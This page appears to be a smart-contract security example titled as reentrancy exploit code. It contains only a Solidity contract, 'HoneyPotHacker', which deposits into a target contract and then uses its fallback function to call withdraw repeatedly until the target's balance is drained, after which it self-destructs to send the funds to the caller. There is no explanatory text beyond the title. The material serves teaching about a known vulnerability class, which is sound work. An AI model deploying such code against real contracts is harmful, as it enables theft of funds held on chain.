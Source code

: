

# Reentrancy Attack Example – Exploit Code

```cs
contract HoneyPotHacker {
  HoneyPot private honeypot;
  function HoneyPotHacker(address a) public payable {
    honeypot = HoneyPot(a);
  }
  function collectMoney() public payable {
    honeypot.deposit.value(msg.value)();
    honeypot.withdraw();
    selfdestruct(msg.sender);
  }
  function() external payable {
    if (honeypot.balance >= msg.value) {
      honeypot.withdraw();
    }
  }
}
```

![](/assets/smart-contract-security-reentrancy-attack-example-exploit-code-01.png)
